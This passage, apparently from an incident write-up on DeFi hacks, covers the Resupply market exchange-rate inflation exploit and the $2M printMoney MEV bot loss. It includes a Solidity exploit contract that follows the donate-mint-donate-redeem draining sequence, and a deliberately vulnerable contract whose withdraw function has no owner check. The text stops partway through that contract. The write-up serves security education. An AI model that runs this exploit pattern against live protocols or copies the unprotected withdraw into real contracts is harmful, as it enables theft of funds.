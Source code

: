 ### The Attack Execution

**Phase 1: Market Manipulation Setup**
```solidity
contract ResupplyExploit {
    VulnerableResupplyMarket target;
    IERC20 underlyingToken;
    
    function executeExploit() external {
        // Step 1: Donate small amount to manipulate initial state
        underlyingToken.transfer(address(target), 1);
        
        // Step 2: Mint minimal tokens to establish position
        target.mint(1);
        
        // Step 3: Manipulate the underlying token balance
        // by donating directly to the contract
        underlyingToken.transfer(address(target), 1000000 * 1e18);
        
        // Step 4: The exchange rate is now massively inflated
        // redeem(1) will return way more than initially deposited
        target.redeem(1);
        
        // Result: Drained $9.8M from the protocol
    }
}
```

**Root Cause Analysis:**
Since the 2023 Hundred Finance hack, this vulnerability class has now accounted for over $51 million in losses, as developers continue to learn the painful lesson that newly deployed markets demand extra care, especially around math precision and initial liquidity.

---

## 🔴 printMoney MEV Bot: $2M Access Control Failure

**The Crisis:** An MEV bot called printMoney lost $2 million due to insufficient function access control - one of the most basic security vulnerabilities.

### Technical Breakdown

```solidity
// Vulnerable MEV bot implementation
contract VulnerablePrintMoneyBot {
    address public owner;
    mapping(address => uint256) public funds;
    
    constructor() {
        owner = msg.sender;
    }
    
    // VULNERABILITY: Missing access control modifier
    function withdrawFunds(address token, uint256 amount) external {
        // CRITICAL FLAW: Anyone can call this function
        // require(msg.sender == owner, "Unauthorised");
        
        IERC20(token).transfer(msg.sender, amount);
    }
    
    // VULNERABILITY: Public function without protection
    function executeTrade(
        address targetContract,
        bytes calldata data,
        uint256 value
```